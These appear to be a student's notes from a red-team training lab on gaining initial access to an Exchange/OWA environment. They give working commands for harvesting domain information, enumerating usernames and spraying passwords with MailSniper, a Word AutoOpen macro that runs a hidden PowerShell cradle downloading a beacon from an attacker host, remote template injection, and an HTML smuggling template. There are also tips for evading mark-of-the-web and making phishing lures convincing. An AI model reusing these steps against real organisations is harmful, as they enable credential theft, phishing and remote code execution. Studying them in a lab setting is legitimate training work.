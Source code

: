 # Initial Compromise

Attack the OWA Exchange service at mail.cyberbotic.io.

## Password Spraying

Tools for password spraying against Office 365 and Exchange:
* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [namemash](https://gist.github.com/superkojiman/11076951)

On Attacker Desktop:
  1. Disable Defender's Real-time protection
  2. Download [MailSniper](https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1)
  3. In an Admin PS, run ```Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine```
  4. In a standard PS, import MailSniper: ```ipmo .\MailSniper.ps1```
  5. ```Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io```  // gives NetBIOS name of domain
  6. Generate possible usernames from names at [https://www.cyberbotic.io/our-team](https://www.cyberbotic.io/our-team):
    5. ```cd /mnt/c/Users/Attacker/Desktop/```
    6. ```cat names.txt```:
        * Bob Farmer
        * Isabel Yates
        * John King
        * Joyce Adams
    8. Use [namemash](https://gist.github.com/superkojiman/11076951) to generate usernames (if format isn't already known): ```python ./namemash.py names.txt > possible.txt```
  9. ```Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList possible.txt -OutFile valid.txt```  // validates usernames using timing attack
  10. Use [MailSniper](https://github.com/dafthack/MailSniper) to spray passwords against valid accounts (beware of login lockouts!):
  11. ```Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList valid.txt -Password Summer2022```


## Internal Phishing
With the credentials of a legit internal user, many doors open, e.g.:
* Emails that may contain sensitive information such as documents, usernames, and passwords
* Send internal emails on behalf of the user, containing specially crafted files/links, or even download a document already in an inbox, backdoor it (e.g. with a macro) and send it back to somebody

## Initial Access Payloads
Two options for delivering a payload that will execute on their system:

1. Send a URL from which a payload can download
2. Attach a payload to the phishing email

## Initial Access Payloads

Files emailed "internally" from a compromised Exchange mailbox are not tagged with a Zone Identifier, and won't have the "mark of the web" (MotW) and come under greater scrutiny.

Check to see whether a file has the MotW: ```gc .\test.txt -Stream Zone.Identifier```. The zones ```gc``` reports are: 

  0: Local computer
  1: Local intranet
  2: Trusted sites
  3: Internet
  4: Restricted sites

## Visual Basic for Applications (VBA) Macros

Docs containing macros are handled with more scrutiny. Create a macro in a Word document by:

1. In CS: Attacks > Scripted Web Delivery (S)
2. Make a 64-bit PowerShell payload for your HTTP listener
  3. URI: anything
  4. Local host: nickelviper.com
  5. Local port: 80
  6. Listener: http
  7. Type: powershell
  8. Use x64 payload
9. This creates a payload hosted on the team server so it can be downloaded over HTTP and executed in-memory; paste into a Word macro (below): ```Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""```
1. In Word: View > Macros > Create
2. Change the "Macros in" field to the document name
3. Basic macro:
    ```
    Sub AutoOpen()
    
      Dim Shell As Object
      Set Shell = CreateObject("wscript.shell")
      Shell.Run "<command>"
    
    End Sub
    ```
4. If the Office license doesn't allow macros, run a Command Prompt as admin:
    ```
    cd C:\Program Files\Microsoft Office\Office16
    cscript ospp.vbs /rearm
    ```
5. In Word: File > Info > Inspect Document > Inspect Document, click Inspect then Remove All next to Document Properties and Personal Information
6. File > Save As and save to C:\Payloads. Any filename, and Save as type: Word 97-2003 (.doc) (.docm usually gets flagged/blocked)
7. Host the file: in CS: Site Management > Host File
  1. File: <payload .doc file>
  2. Local URI: /<file>
  3. Local host: nickelviper.com // an appropriate looking URL you control or a hosting service like OneDrive would be more legit
  4. Local port: 80
  5. Mime type: automatic
8. Open an HTML email template for Office 365 in a browser from https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master/Office365
9. Copy the content and paste into the OWA text editor (if you attach the document directly to the email it will not have MotW and won't open in Protected View)
10. Change text/URL as appropriate, e.g. http://nickelviper.com/file.doc, and send email
11. Log into Workstation 2 as Bob, launch Outlook, and the email will arrive.
12. The file will still have the macro security warning; real phishing campaigns add text e.g. "Shoddy Security Suite has scanned the content and it is safe. To show file, click Enable Content".
13. Once clicked, a PS window will open and close quickly
14. A new beacon will appear in CS

## Remote Template Injection

Using Word's ability to create a doc from a template, which may hold a macro that executes arbitrary code.

1. Attacker Desktop: Open Word > New document
2. Insert desired macro
3. Save to C:\Payloads as Word 97-2003 Template (*.dot) file
4. CS: host template at http://nickelviper.com/template.dot
5. Word: create new document from the blank template at C:\Users\Attacker\Documents\Custom Office Templates
6. Add some content and save it as C:\Payloads\<file>.docx.
7. Explorer: right-click on file and select 7-Zip > Open archive
8. Navigate to word > _rels, right-click on settings.xml.rels and select Edit
9. Replace Target entry in the XML with "http://nickelviper.com/template.dot"
10. Save those changes and email the document to Bob
11. The file still gives a warning about macros but allowing them will execute the macro in the hosted template, creating a beacon in CS

[remoteinjector](https://github.com/JohnWoodman/remoteinjector) automates this process: ```python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx```

## HTML Smuggling

Using JavaScript to hide files from content filters. Email and web scanners can remove these. Embed the payload into HTML and use JavaScript to construct URLs by the browser at runtime to evade this.

Template:
```
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

There are no hardcoded hyperlinks and the content type of the page itself is just text/html.

Use ```echo -en "This is a smuggled file" | base64``` to generate a base64-encoded text file that will download when the page is browsed wihtout any user interaction. This file has MotW however.

### Quick and dirty Python web server for testing
```python3 -m http.server 8080```


